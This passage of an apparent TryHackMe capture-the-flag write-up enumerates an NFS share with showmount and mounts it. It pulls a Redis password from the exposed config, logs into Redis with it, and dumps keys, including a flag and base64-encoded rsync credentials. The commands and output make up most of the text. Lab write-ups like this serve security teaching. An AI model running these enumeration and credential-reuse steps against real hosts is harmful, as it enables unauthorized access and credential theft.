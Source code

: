 ## Port 111 Analysis

I attempted to enumerate network file shares by using `showmount`. I was able to access a share and found a Redis configuration file containing a password: 
```bash
$ showmount -e 10.10.85.213             
Export list for 10.10.85.213:
/opt/conf *

$ mkdir /tmp/mount
$ sudo mount -t nfs 10.10.85.213:/opt/conf /tmp/mount/ -nolock
$ ls
hp  init  opt  profile.d  redis  vim  wildmidi

$ cat redis.conf | grep -v '#'
  [...]
  requirepass "B[removed]F"
  [...]
```

## Port 6379 Analysis

Since I had discoverd a Redis configuration file, I proceeded with port 6379, which likely hosted a Redis server. I authenticated using the previously found password: 
```bash
$ redis-cli -h 10.10.85.213                                   
10.10.85.213:6379> AUTH B65Hx562F@ggAZ@F
OK
```

Once authenticated, I listed all available keys, two of which caught my attention. While I retrieved the next flag, the `authlist` key contained an interesting base64-encoded string: 
```bash
10.10.85.213:6379> keys *
1) "authlist"
2) "tmp"
3) "marketlist"
4) "internal flag"
5) "int"
10.10.85.213:6379> get "internal flag"
"THM{f[removed]1}"
10.10.85.213:6379> lrange "authlist" 0 10
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhbcmVtb3ZlZF12"
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhbcmVtb3ZlZF12"
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhbcmVtb3ZlZF12"
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhbcmVtb3ZlZF12"
10.10.85.213:6379>
```
